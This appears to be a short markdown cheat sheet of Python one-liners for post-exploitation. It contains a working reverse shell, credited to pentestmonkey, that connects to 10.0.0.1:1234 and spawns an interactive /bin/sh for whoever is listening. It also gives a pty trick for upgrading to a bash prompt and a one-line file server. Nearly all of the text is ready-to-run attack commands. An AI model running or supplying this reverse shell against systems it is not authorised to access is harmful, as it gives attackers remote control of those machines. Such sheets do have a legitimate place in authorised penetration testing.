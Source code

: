 # Python Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files on port 8000, single threaded**
```python
python -m SimpleHTTPServer 8000```

**Python reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**
```python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

**Spawn bash shell prompt**
```python
python -c 'import pty; pty.spawn("/bin/bash")'```

***Print all ASCII characters***
```python
python -c 'import string; print string.printable'```
